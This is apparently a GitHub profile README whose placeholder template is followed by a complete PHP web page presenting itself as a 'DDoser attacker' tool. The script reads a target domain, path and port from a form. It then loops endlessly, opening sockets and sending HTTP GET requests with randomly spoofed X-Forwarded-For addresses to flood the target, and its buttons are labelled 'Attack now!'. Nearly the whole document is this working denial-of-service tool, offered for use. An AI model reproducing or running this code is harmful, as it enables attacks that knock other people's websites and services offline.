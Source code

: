 - 👋 Hi, I’m @sontrumddos
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
sontrumddos/sontrumddos is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
<?php
$dominio = addslashes($_POST['host']);
$ruta = addslashes($_POST['path']);
$port = addslashes($_POST['port']);
$poder = addslashes($_POST['poder']);
$pw = addslashes($_POST['pw']);
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<meta name="msvalidate.01" content="ECAB4AE09BDECAEDA633439FD8D12D38" />
<meta name="author" content="Punker2Bot (cracked by 0KaL)" />
<title>DDoser attacker by Zeldris.Vip</title>
<style>
body { padding: 3px; }

* {
background-color: #1F1F1F;
color: #0EEF57;
font-family: calibri,tahoma,verdana,terminal,serif,lucida,system;
font-size: 18px;
margin: 0; }

input {
width: 440px;
border: solid 1px #00BCFF;
padding: 2px; }

input.accion {
width: 215px;
border: solid 2px #00BCFF;
padding: 3px;
cursor: pointer }

input:hover , input:active { border-color: #FFE900 }

#dinamico {
padding: 3px;
font-size: 13px!important;
height: 300px;
min-height: 300px;
max-height: 300px;
overflow: hidden }
</style>
<script>
function ir_a_bajo() {
var scc = document.getElementById('dinamico');
scc.scrollTop = scc.scrollHeight + scc.offsetHeight;
}
setInterval('ir_a_bajo()',75);
</script>
</head>
<body onload="ir_a_bajo()" id="index">
<form action="" method="post" name="jaja">
<table>
<tr>
<td class="titulo">
Domain/IP</td> <td><input id="boton" type="text" name="host" value="<?php if ($dominio == "") {
    print 'vitima.com.br';
} else {
    print htmlentities($dominio);
} ?>" size="40px" ></td>
</tr>
<tr>
<td class="titulo">
Arquivo </td> <td> <input id="boton" type="text" name="path" value="<?php if ($ruta == "") {
    print '/';
} else {
    print htmlentities($ruta);
} ?>" size="40px" /> </td>
</tr>
<tr>
<td class="titulo">
Port </td>
<td>
<select name="port" id="boton">
<option value="80">80 (HTTP)</option>
<option value="443">443 (HTTPS)</option>
<option value="3128">3128 (proxy)</option>
<option value="8080">8080 (proxy)</option>
<option value="1080">1080 (internal proxies)</option>
<option value="2301">2301 (reverse WWW)</option>
</select></td>
</tr>
<tr>
<td class="titulo">
password </td>
<td><input id="boton" type="text" disabled name="pw" value="<?php if ($pw == "") {
    print '0KaL';
} else {
    print htmlentities($pw);
} ?>" size="40px" /> </td>
</tr>
<tr>
<td class="titulo">
Ready? </td> <td>
<input type="submit" value="Attack now!" class="accion"> &nbsp; <input type="button" value="Cancel attack" class="accion" onclick="window.stop()" /> </td>
</tr>
</table>
</form>
<br />
<div id="dinamico">
<?php
@set_time_limit(0);
$msj = array("<h2>No podes continuar, pw erroneo</h2></div></body></html>", "<h2>Fill in the form above with the target data.</h2></div></body></html>", "<big><b>Could not make a connection.</b></big><br />
", "0a32e26a417d2c7cfbd333b7feb0a0a8", "2e2234a41122a233cfbd333b9bc30a03");
function ddoser($dominio, $ruta, $port) {
    //hago un random de ips para no ser siempre el mismo vistitante
    $ip_simulada = rand(188, 254) . '.' . rand(1, 254) . '.' . rand(1, 254) . '.' . rand(1, 254);
    //defino y abro socket segun los datos del form
    $socket = fsockopen($dominio, $port, $errno, $errstr, 30);
    // comienzan los datos del header para parecer una persona comun xD
    $header = "GET " . $ruta . " HTTP/1.1
";
    $header.= "Host: " . $dominio . "
";
    $header.= "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; es-ES; rv:1.8.1.16) Gecko/20080702 Firefox/2.0.0.16
";
    $header.= "Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,image/jpg,image/gif,*/*;q=0.5
";
    $header.= "Accept-Language: es-es,es;q=0.8,en-us;q=0.5,en;q=0.3
";
    $header.= "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
";
    $header.= "Keep-Alive: 300
";
    $header.= "Proxy-Connection: keep-alive
";
    $header.= "Referer: http://" . $dominio . $ruta . "
";
    $header.= "Content-Type: application/x-www-form-urlencoded
";
    $header.= "X-Forwarded-For: " . $ip_simulada . "
";
    $header.= "Via: CB-Prx
";
    $header.= "Connection: Close

";
    //envio todo lo recolectado
    $send_header = fwrite($socket, $header);
    //lo muestro en la web
    if ($send_header) {
        print ("Attacking as: <span style='color:#FF0F2F'>" . $ip_simulada . "</span> @ " . htmlentities(str_replace('www.', '', $dominio)) . "" . htmlentities($ruta) . "<br />
");
    } else {
        print ("$msj[2]");
    }
    fclose($socket);
}
if ($msj[3] != (md5(md5($pw)))) {
    echo "DDoS script coded by <a href='https://zeldris.vip/' title='Website' target='_blank'>Zeldris</a>.";
}
if ($dominio != "" && $dominio != "www.victima.com") {
    while (1) {
        ddoser($dominio, $ruta, $port);
    }
} else {
    die("$msj[1]");
}
?>
</div>
</body>
</html><? $el_saludo_es = ""; ?>
